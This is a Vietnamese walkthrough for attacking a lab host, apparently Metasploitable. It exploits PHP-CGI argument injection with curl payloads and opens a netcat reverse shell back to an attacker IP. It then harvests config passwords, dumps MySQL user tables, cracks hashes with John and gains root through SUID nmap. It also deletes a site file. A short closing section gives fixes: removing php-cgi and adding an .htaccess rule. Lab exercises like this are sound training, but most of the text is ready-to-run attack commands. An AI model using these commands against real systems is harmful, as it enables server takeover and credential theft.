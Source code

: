 ## Tùy chọn lệnh
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('whoami'); die(); ?>" --connect-timeout 10
```

## Chím Shell phiên bản ngoài đời thực

-Lắng nghe:
```
nc -lvnp 4444
```

- Thự hiện shell ngược:
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('nc 192.168.80.2 4444 -e /bin/sh'); die(); ?>" --connect-timeout 10
```

- Chím shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 📁 4. Khám phá thư mục home, có thể chứa thông tin nhạy cảm [*]
```
cd /home
ls -la
```

- 🔑 5. Tìm kiếm thông tin nhạy cảm: mật khẩu, private key, cấu hình database
```
find /var/www -type f -iname "*config*.php"
```

- 🔍 Đặc biệt chú ý các file trong dvwa, mutillidae, phpMyAdmin, tikiwiki: [*]
cat /var/www/dvwa/config/config.inc.php

```
cat /var/www/dvwa/config/config.inc.php
```

- 🔄 7. Nếu có thông tin đăng nhập MySQL, thử đăng nhập: [*]
```
mysql -u root -p
```

```
show databases;
```

```
USE dvwa;
SHOW TABLES;
SELECT * FROM users;
```

```
USE mysql;
SELECT user, host, password FROM user;
```

```
USE owasp10;
SHOW TABLES;
SELECT * FROM accounts;
```


```
exit
```
## Crack password

- Xóa bộ nhớ đệm trước đó
```
rm ~/.john/john.pot
```

```
john --format=<format> hashes.txt
```

- Crack hash
```
john --wordlist=rockyou.txt --format=raw-md5 hash.txt
```

- Show 
```
john --show --format=raw-md5 hash.txt
```


## Test đăng nhập

- Xem người dùng trong hệ thống
```
cat /etc/passwd
```

## Thăng Quyền

| Thành phần    | Giải thích dễ hiểu                                                                                                                                            |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `find`        | Lệnh dùng để **tìm kiếm file/thư mục**.                                                                                                                       |
| `/`           | Bắt đầu tìm từ **gốc hệ thống** (toàn bộ máy – từ `/` trở đi).                                                                                                |
| `-perm -4000` | Tìm file có quyền **SUID (Set User ID)** được bật.<br>📌 "4000" là mã quyền dạng **octal** đại diện cho SUID.<br>✅ `-4000` nghĩa là **phải có đúng bit SUID** |
| `-type f`     | Chỉ tìm **file thông thường** (không tìm thư mục, symlink, v.v).                                                                                              |
| `2>/dev/null` | **Ẩn lỗi** (ví dụ lỗi "Permission denied" khi không đọc được thư mục nào đó).                                                                                 |


```
find / -perm -4000 -type f 2>/dev/null
```

```
/usr/bin/nmap --interactive
```

```
!sh
```

```
whoami
```

> - Bạn là người thường (www-data), muốn vào phòng VIP.
> - Có một người khác được cấp quyền root tên là nmap(/usr/bin/nmap)
> - Khi bạn nhờ robot làm giúp ("--interactive")
> - Bạn bảo: “Mở cửa phòng VIP giúp tôi nhé!” (!sh)
> - Robot dùng quyền của nó để mở cửa, vậy là bạn vào được(chạy dưới quyền root)!

## Tạo thư mục
```
mkdir haidang
```


## xóa file
```
rm index.php
```






# 🛡️ 4. Đề xuất khắc phục
## Xóa CGI
```
find / -name "php-cgi" 2>/dev/null
```

```
sudo rm -f /usr/bin/php-cgi
```

```
sudo rm /etc/alternatives/php-cgi
```

```
sudo rm -f /usr/lib/cgi-bin/php5
sudo rm -f /usr/lib/cgi-bin/php
```

```
sudo /etc/init.d/apache2 restart
```




## Lọc Tham Số Nguy Hiểm
> `-d` `-n` `-s` ...

```
export TERM=xterm
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.80.10
```


```
cd /var/www
sudo nano .htaccess
```

- Dán nội dung sau:
```
<IfModule mod_rewrite.c>
  RewriteEngine On
  RewriteCond %{QUERY_STRING} ^(%2d|-)[^=]+$ [NC]
  RewriteRule ^.* - [F,L]
</IfModule>
```

- reload
```
sudo a2enmod rewrite
sudo /etc/init.d/apache2 force-reload
```

---

- 🛠 Cho phép Apache sử dụng .htaccess
```
sudo nano /etc/apache2/sites-available/default
```

- Tìm:
```
<Directory /var/www/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride None
    Order allow,deny
    allow from all
</Directory>
```

- ➡ Sửa dòng AllowOverride None thành:
```
AllowOverride All
```

- AllowOverride All

```
sudo /etc/init.d/apache2 restart
```

---

```
sudo ifconfig eth0 192.168.80.10 netmask 255.255.255.0 up 
```
